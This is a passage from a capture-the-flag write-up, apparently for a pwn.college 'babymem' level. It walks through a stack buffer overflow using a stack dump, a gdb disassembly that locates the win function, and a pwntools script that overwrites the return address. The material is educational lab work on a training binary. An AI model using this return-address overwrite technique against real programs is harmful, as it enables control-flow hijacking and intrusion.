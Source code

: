 ```
	    | 0x00007ffd2e328c78 (rsp+0x0078) | 30 8c 32 2e fd 7f 00 00 | 0x00007ffd2e328c30 |
ebp ------> | 0x00007ffd2e328c80 (rsp+0x0080) | b0 9c 32 2e fd 7f 00 00 | 0x00007ffd2e329cb0 | <------ saved ebp of previous frame
	    | 0x00007ffd2e328c88 (rsp+0x0088) | 9f 2a 40 00 00 00 00 00 | 0x0000000000402a9f | <------ return address
	    +---------------------------------+-------------------------+--------------------+
```
{% endcode %}

* This time there's no pointer to the buffer or to the win variable as there is no win variable in the first place.
* In order to execute the `win` function, we have to overwrite the return address with the address of the `win` function.

```
Buffer:                           Padding byte:                     Return address:

00 00 00 00 00 00 00 00              f2 93 28 fd 7f 00 00           9f 2a 40 00 00 00 00 00 
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           50 e2 93 28 fd 7f 00 00
00 00 00 00 00 00 00 00           d0 f2 93 28 fd 7f 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 
```

* Let's open the program in `gdb`.

```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x000000000040236c <+0>:     endbr64 
; -- snip --
```

* As we can see the location of the `win` function is `0x000000000040236c`.
* Let's craft our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x000000000040236c)

p = process('/challenge/babymem_level3.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
